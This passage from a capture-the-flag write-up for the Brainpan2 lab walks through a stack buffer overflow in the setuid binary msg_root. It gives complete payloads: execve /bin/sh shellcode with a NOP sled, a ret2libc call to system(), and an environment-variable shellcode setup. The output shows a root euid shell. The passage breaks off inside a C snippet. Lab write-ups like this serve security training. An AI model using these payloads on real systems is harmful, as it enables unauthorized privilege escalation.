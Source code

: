 ```bash
(gdb) r `python -c 'shell = "\x90" * 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; print "A" * 14 + "\x44\xfb\xff\xbf" + shell + "\x90" * 960'` a
Starting program: /home/reynard/msg_root `python -c 'shell = "\x90" * 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; print "A" * 14 + "\x44\xfb\xff\xbf" + shell + "\x90" * 960'` a
process 3055 is executing new program: /bin/dash
$ 
```
Awesome now we can do this is in our regular low privileged anansi shell and elevate.
```bash
anansi@brainpan2:/home/reynard$ ./msg_root `python -c 'shell = "\x90" * 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; print "A" * 14 + "\x44\xfb\xff\xbf" + shell + "\x90" * 960'` a
Segmentation fault
```
Rats it doesn't work. Then we remember that gdb will shift addresses around a bit so we play with the last byte in our overwrite address and slowly increase its value from 0xbffffb44. At first we just get segfaults then it eventually does work at address 0xbffffb52. This could be very stupid if we had to guess more than 10-15 times and should really be automated with a python script or something. The other thing here is the nops at the end need to be around 950-1000 or it will not work. Here is the string that will spawn a shell:
```bash
anansi@brainpan2:/home/reynard$ ./msg_root `python -c 'shell = "\x90" * 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; print "A" * 14 + "\x52\xfb\xff\xbf" + shell + "\x90" * 960'` a
$ id
uid=1000(anansi) gid=1000(anansi) euid=104(root) groups=106(root),50(staff),1000(anansi)
```


So that was very cumbersome. A cooler way we can do this is overwrite the return address with the system function and load /bin/sh as an argument for it at the start of our garbage of a's. First find that system() address in gdb and then put it as our overwrite with /bin/sh at the begining:
```bash
Breakpoint 1, main (argc=1, argv=0xbffffe14) at msg_root.c:31
31      msg_root.c: No such file or directory.
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7eb3f10 <system>

--snip---

anansi@brainpan2:/home/reynard$ ./msg_root `python -c 'print  "\x2fbin\x2fsh;aaaaaa" + "\x10\x3f\xeb\xb7"'` blah
$ id
uid=1000(anansi) gid=1000(anansi) euid=104(root) groups=106(root),50(staff),1000(anansi)
```

So another and easier way here is to load the shellcode into an environment variable, then determine that address and jump to it. First we need some shellcode loaded into an environment variable with a bit of padding:
```bash
anansi@brainpan2:~$ export SHELLCODE=$(python -c 'print "\x90"*500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
anansi@brainpan2:~$ echo $SHELLCODE
1Ph//shh/bin°
             ̀1@̀
anansi@brainpan2:~$
```
OK that looks good now we can use this short C code to print the address the variable is at:
```C
#include <stdio.h>                                 
#include <stdlib.h>                                

int main(int argc, char *argv[]) {                 
```